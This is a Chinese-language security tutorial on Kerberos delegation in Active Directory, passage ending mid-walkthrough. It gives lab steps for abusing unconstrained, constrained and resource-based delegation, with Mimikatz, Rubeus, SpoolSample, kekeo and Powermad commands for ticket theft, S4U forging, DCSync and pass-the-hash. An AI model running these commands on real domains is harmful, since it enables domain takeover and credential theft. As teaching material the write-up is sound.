






# 域委派攻防深入刨析 - 先知社区

域委派攻防深入刨析

- - -

## 委派简介

委派(Delegation)是一种让用户可以委托服务器代表自己与其他服务进行验证的功能，它允许服务账户在活动目录中模拟其他域用户身份，主要用于当服务需要以某个用户的身份来请求访问其他服务资源的场景，例如：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120220934-89aad056-b79d-1.png)  
域用户"hacke\\testuser"以kerberos身份验证访问Web服务器并请求下载文件，但是真正的文件在后台的文件服务器上，于是Web服务器的服务账号websrv模拟域内的用户"hacke\\testuser"以kerberos协议继续认证到后台文件服务器，后台文件服务器将文件返回给Web服务器，Web服务器将文件返回给域用户"hacke\\testuser"，这样就完成了一个委派的流程

-   域用户" hacke\\testuser " 以kerberos身份验证访问Web服务器，请求下载文件
-   Web服务的服务账号为websrv，由于Web服务器上无用户请求的文件，所以websvc向KDC发起"hacke\\testuser"用户的票据请求
-   KDC检查websrv服务账号的委派属性，如果被设置，则返回"hacke\\testuser"用户的可转发TGT认购权证
-   websrv收到"hacke\\testuser"用户的TGT认购权证后，使用该TGT向KDC申请访问文件服务器的ST服务票据
-   KDC检查websrv服务账号的委派属性，如果被设置并且申请的文件服务在允许的列表清单中，则返回"hacke\\testuser"用户访问文件服务的ST服务票据
-   websrv收到KD 返回的"hacke\\testuser"用户的ST服务票据后，用该ST服务票据访问文件服务器，并且将文件服务器返回的文件返回给"hacke\\testuser"用户，就此完成委派认证

在域中，只有"服务账号"和"主机账号"才具有委派属性:

-   主机账号就是AD活动目录中Computers中的计算机，也可以称为机器账号(一个普通域用户默认最多可以创建十个主机账号)
-   服务账号(Service Account)是域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来并加入域，例如SQL Server在安装时，会在域内自动注册服务账号SQLServiceAccount，也可以将域用户通过注册SPN变为服务账号

## 委派分类

委派分为无约束委派，传统的约束委派以及基于资源的约束委派~

### 非约束性委派

#### 基本介绍

对于非约束性委派(Unconstrained Delegation)而言，服务账号/主机账号可以获取被委派用户的TGT，并将TGT缓存到LSASS进程中，之后服务账号/主机账号可使用该TGT，模拟用户访问任意服务，例如：当User访问Service1时，Service1服务账号开启了unconstrained delegation(非约束委派)，则当User访问Service1时会将User的TGT发送给Service1并保存在内存中以备下次重用，然后Service1就可以利用这张TGT以User的身份去访问域内的任何服务(任何服务是指User能访问的服务)了，非约束委派的设置需要SeEnableDelegation特权，该特权通常仅授予域管理员  
非约束委派在Kerberos中实现时，User会将从KDC处得到的TGT发送给访问的service1(可以是任意服务)，service1拿到TGT之后可以通过TGT访问域内任意其他服务，所以被称为非约束委派。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221156-de7768f6-b79d-1.png)

#### 工作流程

-   用户通过发送KRB\_AS\_REQ消息请求可转发TGT(forwardable TGT，为了方便我们称为TGT1)
-   KDC在KRB\_AS\_REP消息中返回TGT1
-   用户再通过TGT1向KDC请求转发TGT(forwardedTGT，我们称为TGT2)
-   在KRB\_TGS\_REP消息中返回转发TGT2
-   用户使用TGT1向KDC申请访问Service1的ST(ServiceTicket）
-   TGS返回给用户一个ST
-   用户发送KRB\_AP\_REQ请求至Service1，这个请求中包含了TGT1和ST、TGT2、TGT2的SessionKey
-   Service1使用用户的TGT2通过KRB\_TGS\_REQ发送给KDC，以用户的名义请求能够访问Service2的票据
-   KDC在KRB\_TGS\_REP消息中返回Service2到Service1的票据
-   Service1以用户的名义像Service2发送KRB\_AP\_REQ请求
-   Service2响应步骤10中Service1的请求
-   Service1响应步骤7中用户的请求
-   在这个过程中的TGT转发机制，没有限制Service1对TGT2的使用，也就是说Service1可以通过TGT2来请求任意服务
-   KDC返回步骤13中请求的票据
-   15和16即为Service1通过模拟用户来访问其他Service

#### 具体设置

**A：服务账号委派设置**

在进行服务账户的委派时我们首先要确定当前委派的账户下有注册的服务，因为在Window系统中，普通用户的属性中是没有委派这个选项的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221240-f8f96b2a-b79d-1.png)  
我们可以通过以下命令给用户账户注册服务，比如：mssql，http等，例如给用户Al1ex(1234Rewq!@#$)注册Mysql服务使其成为服务账号：

```plain
setspn -S MySQL/win7-test.hacke.testlab Al1ex
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221341-1cda3bbe-b79e-1.png)  
之后我们可以在账号属性中看到"委派"，之后可以设置其为"非约束性委派"：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221352-23b0c516-b79e-1.png)

**B、主机账号委派设置**

而主机账户的委派直接可以在computer中进行设置：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221411-2ee09c04-b79e-1.png)

### 约束性委派

#### 基本介绍

微软在Windows Server 2003中引入了约束委派，对Kerberos协议进行了拓展，引入了S4U，其中S4U支持Service for User to Self(S4U2Self)和Service for User to Proxy(S4U2proxy)两个子协议，这两个扩展允许服务代表用户从KDC请求票证，S4U2self可以代表自身请求针对其自身的Kerberos服务票据(ST)，S4U2proxy可以以用户的名义请求其它服务的ST，约束委派就是限制了S4U2proxy扩展的范围，而约束性委派的脆弱点在于如果我们能获取到开启了约束委派的服务用户的明文密码或者NTLM Hash，我们就可以伪造S4U请求，进而伪装成服务用户以任意账户的权限申请访问某服务的ST  
从下图可以看到整个过程其实可以分为两个部分，第一个是S4U2Self的过程(流程1-4)，第二个是S4U2Proxy的过程(流程5-10):  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221434-3ca00762-b79e-1.png)

### 工作流程

-   用户向Service1发送请求
-   这时在官方文档中的介绍是在这一流程开始之前Service1已经通过KRB\_AS\_REQ得到了用户用来访问Service1的TGT，然后通过S4U2self扩展模拟用户向KDC请求ST
-   KDC这时返回给Service1一个用于用户验证Service1的ST(我们称为ST1)，并且Service1用这个ST1完成和用户的验证过程
-   Service1在步骤3使用模拟用户申请的ST1完成与用户的验证，然后响应用户，这个过程中其实Service1是获得了用户的TGT和ST1的，但是S4U2Self扩展不允许Service1代表用户去请求其他的服务
-   用户再次向Service1发起请求，此时Service1需要以用户的身份访问Service2，这里官方文档提到了两个点：
-   Service1已经验证通过，并且有一个有效的TGT
-   Service1有从用户到Service1的forwardableST(可转发ST)，个人认为这里的forwardable ST其实也就是ST1
-   Service1代表用户向Service2请求一个用于认证Service2的ST(我们称为ST2)，用户在ST1中通过cname(client name)和crealm(client realm)字段标识
-   KDC在接收到步骤6中Service1的请求之后，会验证PAC(特权属性证书，在第一篇中有说明)的数字签名，如果验证成功或者这个请求没有PAC(不能验证失败)，KDC将返回ST2给Service1，不过这个ST2中cname和crealm标识的是用户而不是Service1
-   Service1代表用户使用ST2请求Service2，Service2判断这个请求来自已经通过KDC验证的用户
-   Service2响应Service1的请求
-   Service1响应用户的请求

在这个过程中S4U2Self扩展的作用是让Service1代表用户向KDC验证用户的合法性，并且得到一个可转发的ST1，S4U2Proxy的作用可以说是让Service1代表用户身份通过ST1重新获取ST2，并且不允许Service1以用户的身份去访问其他服务，相关细节可以参考官方文档，和RFC4120的内容  
同时需要注意forwardable字段，有forwardable标记为可转发的是能够通过S4U2Proxy扩展协议进行转发的，如果没有标记则不能进行转发  
[https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94)

#### 具体配置

**A、服务账号委派**

先将Al2ex设置为服务账户：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221821-c3e98b08-b79e-1.png)  
在账户属性中将Al2ex(1234Rewq!@#$)的委派方式更改为约束委派：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221834-cbaee27a-b79e-1.png)

**B、主机账号委派设置**

直接在computer中进行修改即可：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120221851-d5e3d778-b79e-1.png)

### 资源约束性委派

#### 基本概念

基于资源的约束委派(RBCD)是在Windows Server 2012中新加入的功能，与传统的约束委派相比，它不再需要域管理员权限去设置相关属性，RBCD把设置委派的权限赋予了机器自身，既机器自己可以决定谁可以被委派来控制我，也就是说机器自身可以直接在自己账户上配置msDS-AllowedToActOnBehalfOfOtherIdentity属性来设置RBCD

## 委派查询

在域中可以通过PowerView脚本来搜索开启了委派的主机和用户，查询非约束委派主要是通过搜索userAccountControl属性包含ADS\_UF\_TRUSTED\_FOR\_DELEGATION的主机或账户，而约束委派则通过查询userAccountControl属性包含TRUSTED\_TO\_AUTH\_FOR\_DELEGATION的主机或用户

### 非约束委派

#### Powerview

判断用户是否处于非约束性委派，当服务账号被设置为非约束性委派时，其 userAccountControl 属性会包含为"TRUSTED\_FOR\_DELEGATION"

```plain
Get-DomainUser Al1ex -Properties  useraccountcontrol,msds-allowedtodelegateto| fl
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222005-01f8f6c2-b79f-1.png)  
查询域中配置非约束委派的主机：

```plain
Get-NetComputer -Unconstrained -Domain hacke.testlab | select name
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222104-24f67078-b79f-1.png)  
或者也可以使用下面的这种查询方法：

```plain
Get-DomainComputer -Unconstrained -Domain hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222121-2f4541a8-b79f-1.png)

#### ADfind

使用ADfind查找非约束委派的用户：

```plain
AdFind.exe -b "DC=hacke,DC=testlab" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222152-41c0f6ce-b79f-1.png)  
使用ADfind查找非约束性委派的主机：

```plain
AdFind.exe -b "DC=hacke,DC=testlab" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222209-4bb30758-b79f-1.png)

### 约束委派

#### PowerView

判断账户是否属于约束委派，当被设置为约束性委派时，其userAccountControl属性包含"TRUSTED\_TO\_AUTH\_FOR\_DELEGATION"，且 msds-allowedtodelegateto属性会被设置为哪些SPN，如下图所示：

```plain
Get-DomainUser Al2ex -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222235-5b4aac3e-b79f-1.png)  
查看设置了约束委派的用户

```plain
Get-DomainUser -TrustedToAuth -Domain hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222253-66574fd8-b79f-1.png)  
也看通过以下方法来查询域中配置约束委派的账户:

```plain
Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222310-70593366-b79f-1.png)  
查询域中配置约束委派的主机

```plain
Get-DomainComputer -TrustedToAuth -Domain hacke.testlab | select name
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222326-79c5417e-b79f-1.png)  
或者也可以使用以下方法进行查询：

```plain
Get-DomainComputer -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto|ft -Wrap -AutoSize
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222343-84242af4-b79f-1.png)

#### AdFind

查找域中配置约束委派用户:

```plain
AdFind.exe -b "DC=hacke,DC=testlab" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222405-90b2ad68-b79f-1.png)

## 委派攻击

### 非约束委派利用

#### 实验环境

-   域：hacke.testlab
-   域控：Windows Server 2012 R2 x64
-   域内主机：Windows 7
-   域管理员：Administrator
-   域普通用户：Al1ex

#### 实验工具

Mimikatz

#### 具体步骤

Step 1：在域控上设置主机win7具有非约束性委派属性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222441-a624b97a-b79f-1.png)  
查看域内非约束性委派的主机账号，如下(域控默认是设置为非约束性委派)：

```plain
Get-NetComputer -Unconstrained -Domain hacke.testlab | select name
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222457-b024b42a-b79f-1.png)  
Step 2：在win7上访问域控主机，提示拒绝访问

```plain
dir \\dc.hacke.testlab\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222512-b8e7efdc-b79f-1.png)  
Step 3：此时我们在域控主机Windows Server 2012 R2上以Administrator身份访问win7机器

```plain
dir \\win7-test.hacke.testlab\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222530-c3e8d9b4-b79f-1.png)  
Step 4：此时在win 7主机的lsass.exe内存中就会有域用户administrator的TGT票据，之后我们在window 7上以管理员的方式运行Mimikatz，执行以下命令：

```plain
privilege::debug 
sekurlsa::tickets /export
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222600-d592bc84-b79f-1.png)  
Step 5：使用mimikatz将这个票据导入内存中，然后访问域控

```plain
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222620-e1663784-b79f-1.png)

### 非约束委派+Spooler

#### 基本介绍

如果只是单纯的非约束委派话可能需要管理员主动连接，所以在实战环境中多少有些鸡肋，不过利用" 非约束委派+Spooler打印机服务 "可以强制指定的主机进行连接，这个利用场景是tifkin，enigma0x3和harmj0y在DerbyCon 2018提出的，PPT地址如下：  
[https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory](https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory)

#### 利用原理

Windows打印系统远程协议(MS-RPRN)是一种旧的但是默认启用的方法，在该方法中，域用户可以使用MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex)方法强制任何运行了Spooler服务的计算机以通过Kerberos或NTLM对攻击者选择的目标进行身份验证，请求流程大致如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222653-f515095e-b79f-1.png)  
Print Spooler服务默认是自动运行的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222704-fb97672c-b79f-1.png)

#### 实验环境

-   域：hacke.testlab
-   域控：Windows Server 2012 R2 x64
-   域内主机：Windows 7
-   域管理员：Administrator
-   域普通用户：Al1ex

#### 具体步骤

Step 1：设置win 7非约束性委派：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222730-0b5eb778-b7a0-1.png)  
Step 2：下载攻击载荷并进行编译  
POC地址：[https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222740-113e75de-b7a0-1.png)  
Step 3：使用Rubeus来监听Event ID为"4624"的事件，用于第一时间截取到域控的TGT，每隔一秒监听一次来自dc的登陆(需要本地管理员权限）

```plain
#格式：
Rubeus.exe monitor /interval:5 /filteruser:VICTIM-DC-NAME$

#示例：
Rubeus.exe monitor /interval:5 /filteruser:dc$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222802-1dfe7508-b7a0-1.png)  
Step 4：使用spoolSample.exe向DC的Spooler服务发送请求，强制其访问win7进行身份验证

```plain
SpoolSample.exe dc.hacke.testlab win7-test.hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222818-27d57856-b7a0-1.png)  
Step 5:之后在Rubuse中成功捕捉到来自目标dc的认证请求(此时的Rubeus.exe捕获到的TGT是base64编码的，但是我们不需要解码，Rubeus可以直接将base64编码的票据直接注入到内存中)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222831-2f536a8e-b7a0-1.png)  
Step 6：为了方便起见，我们这里直接使用Mimikatz从内存中导出TGT

```plain
privilege::debug
sekurlsa::tickets /export
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222851-3b3b6856-b7a0-1.png)  
Step 7：此时依旧无法访问域控  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222902-41c86c8c-b7a0-1.png)  
Step 8：之后使用mimikatz将这个票据导入内存中，然后成功访问域控

```plain
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120222923-4e85fb6a-b7a0-1.png)

### 约束性委派利用

#### 实验环境

-   域：hacke.testlab
-   域控：Windows Server 2012 R2 x64
-   域内主机：Windows 7
-   域管理员：Administrator
-   域普通用户：Al2ex

#### 实验工具

-   kekeo
-   Mimikatz

#### 实验步骤

Step 1：域用户Al2ex注册为服务账号  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223009-69f0a38c-b7a0-1.png)  
之后在账户属性中将Al2ex(1234Rewq!@#$)的委派方式更改为约束委派，协议为域控的CIFS协议：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223028-75298070-b7a0-1.png)  
Step 2：假定我们此时拿到了域内任意一台主机Windows 7的权限，是普通域用户权限(不需要本地管理员权限也行)，之后查看域内约束性委派的服务账号，可以看到Al2ex账号设置了约束性委派

```plain
Import-Module .\powerview.ps1
Get-DomainUser -TrustedToAuth -Domain hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223046-804642ae-b7a0-1.png)  
Step 3：之后我们可以在Win 7主机上使用kekeo执行如下命令来请求ST服务票据

```plain
tgt::ask /user:al2ex /domain:hacke.testlab /password:"1234Rewq!@#$"

#参数说明
/user:当前用户名
/domain:所在域名
/password:当前用户名的密码
/ticket:生成票据名称，这个参数也可以直接跳过

PS:如果已知的是服务账号的NTLM Hash，则如下
tgt::ask /user:al2ex /domain:hacke.testlab /NTLM:"NTLM-Hash"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223108-8d3ca778-b7a0-1.png)  
Step 3：使用kekeo申请TGS票据

```plain
tgs::s4u /tgt:TGT_al2ex@HACKE.TESTLAB_krbtgt~hacke.testlab@HACKE.TESTLAB.kirbi /user:administrator@hacke.testlab /service:cifs/dc.hacke.testlab

#参数说明
/tgt:上一步通过kekeo生成的tgt票据
/user:想要伪造的用户名写全称（用户名@域名）
/service:想要伪造访问的服务名（服务名/主机的FQDN名称）
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223127-98260f62-b7a0-1.png)  
Step 4:从kekeo中使用exit命令退出，然后使用mimikatz将生成的TGS文件导入到Kerberos凭据列表中

```plain
kerberos::ptt TGS_administrator@hacke.testlab@HACKE.TESTLAB_cifs~dc.hacke.testlab@HACKE.TESTLAB.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223145-a31c68bc-b7a0-1.png)  
Step 5:利用DCSync读取krbtgt的HASH

```plain
lsadump::dcsync /user:krbtgt /domain:hacke.testlab
```

Step 6:通过dcsync读取hacke\\Administrator的HASH进行PTH

```plain
privilege::debug
sekurlsa::pth /user:Administrator /domain:hacke.testlab /ntlm:9492fbc31a047a42a454f0e1701103dc /run:cmd.exe
```

PS：以上Step 5、6为后续补充的，所以没有截图，同时Step 5、6可以用作横向移动~

### 资源约束性委派攻击

#### 基本介绍

该攻击由国外安全研究员Elad Shami提出，他在文章中指出无论服务账号的UserAccountControl属性是否被设置为TrustedToAuthForDelegation值，服务自身都可以通过调用S4U2Self来为任意用户请求自身的服务票据，但是当没有设置该属性时，KDC通过检查服务账号的TrustedToAuthForDelegation位和msDS-AllowedToDelegateTo这两个字段，发现没有被赋值时，服务自身通过S4U2Self请求到的ST服务票据是不可转发的，因此不可转发的ST服务票据是无法通过S4U2Proxy转发到其他服务进行约束性委派认证的，但是在基于资源的约束委派过程中，不可转发的ST服务票据仍然可以通过S4U2Proxy转发到其他服务进行委派认证，并且最后服务还会返回一张可转发的ST服务票据，因此，如果我们能够在服务B上配置允许服务A的基于资源的约束委派，那么我们就可以通过控制服务A使用S4U2Self向域控请求任意用户访问自身的服务票据，最后再使用S4U2Proxy转发此ST票据去请求访问服务B的可转发的ST服务票据，那么我们就可以模拟任意用户访问服务B了，这里我们可以以普通域用户的身份去创建机器账号作为服务A。  
引用博客文章中的一张图说明该攻击步骤：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223331-e24db2c0-b7a0-1.png)

#### 实验环境

-   域：hacke.testlab
-   域控：Windows Server 2012 R2 x64
-   域内主机：Windows 7
-   域管理员：Administrator
-   域普通用户：Al1ex

#### 环境配置

Step 1：使用AdExplorer连接域控，之后在win7-test的安全属性中为Al1ex用户赋予写权限  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223431-062ce1c0-b7a1-1.png)  
Step 2：以普通域用户Al1ex登录Windows 7主机  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223443-0d50b238-b7a1-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223450-11b40e4c-b7a1-1.png)  
Step 3：验证用户Al1ex是否有对Windows 7具有写权限，可以使用powerView来枚举Win7-test.hacke.testlab中特定ACE

```plain
# 查询test的SID
Get-DomainUser -Identity Al1ex -Properties objectsid     
# 查看是否有写权限
Get-DomainObjectAcl -Identity Win7-test  | ?{$_.SecurityIdentifier -match "S-1-5-21-180313546-3823935851-3686928739-1602"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223514-1fcc9b52-b7a1-1.png)

Step 4：创建机器账户  
我们现在还需要一个具有SPN的账户，因为S4U2Self只适用于具有SPN的账户，恰好的是在域中有一个属性MachineAccountQuota，这个值表示的是允许用户在域中创建的计算机帐户数，默认为10，这意味着我们如果拥有一个普通的域用户那么我们就可以利用这个用户最多可以创建十个新的计算机帐户，而计算机账户默认是注册RestrictedKrbHost/domain和HOST/domain这两个SPN的，所以这里刚好符合我们的意图，我们可以使用Kevin Robertson的Powermad([https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad) )中的New-MachineAccount来创建一个用户名为evilsystem，密码为evil的计算机账户

```plain
New-MachineAccount -MachineAccount evilsystem -Password $(ConvertTo-SecureString "evil" -AsPlainText -Force)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223532-2aabe604-b7a1-1.png)

Step 5：查询机器用户是否创建成功

```plain
net group "domain computers" /domain
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223549-34c573c6-b7a1-1.png)  
Step 6：配置evilsystem到wi7-test的基于资源约束的委派  
a、获取evilsystem的SID

```plain
Get-NetComputer "evilsystem"  //S-1-5-21-180313546-3823935851-3686928739-1604
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223624-4993ea8a-b7a1-1.png)  
